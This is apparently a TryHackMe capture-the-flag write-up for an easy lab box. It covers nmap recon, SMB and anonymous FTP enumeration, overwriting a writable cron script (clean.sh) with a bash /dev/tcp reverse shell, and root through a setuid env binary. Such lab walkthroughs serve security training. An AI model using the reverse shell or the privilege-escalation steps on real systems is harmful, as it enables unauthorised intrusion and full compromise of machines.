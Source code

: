 Easy Tryhackme Box

## Recon

I did an nmap scan on the box that revealed 4 open ports.

But the ftp port had anonymous login enabled which was very easy to exploit.
And the rest were ok.

```bash
# Nmap 7.91 scan initiated Mon Aug  2 20:30:10 2021 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.170.122
Nmap scan report for 10.10.170.122
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.13.156
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-08-02T15:00:46+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-02T15:00:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 20:30:50 2021 -- 1 IP address (1 host up) scanned in 39.91 seconds
```

## Enumeration

I tried enumerating for shares on the ports 139, 445 for smb shares.

```bash 
smbclient -L //HOST-IP/ -N
```

This gives me shares with the names of `pics`. 

Logging into them as user and downloading those pictures thinking it might have some steg involved ended up as a rabbit hole.

But FTP service on this machine allows anonymous user login. So I logged into the ftp on port 21 with creds : `anonymous:anonymous`.
It really doesn't matter what the password is as long as username is `anonymous`.

## Exploit

There are 3 files in the ftp server. one of them is just a to_do.txt and irrelevant.

There is a `clean.sh` and a `removed_files.log` file.

Looking at the `clean.sh` file, it seems it checks if any files are present in the tmp folder and logs them into `removed_files.log` file.

So this must be a cronjob that executes itself after a certain time interval.

So I changed the script to a bash reverse shell using `!nano` command and started a listener on my local machine.

clean.sh: \
```bash
#!/bin/bash
bash -i >& /dev/tcp/<VPN-IP>/9999 0>&1
```

And so after some time, we get a shell as the user `namelessone`.

## Priv Esc

I used the `find` command to find any setuids that I can use for priv esc.

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

I found the setuid `/usr/bin/env` that has it's setuid bit set.

Using the command from gtfobins for [env](https://gtfobins.github.io/gtfobins/env/).

We can get direct root access. Now we can go ahead and read both user and root flags.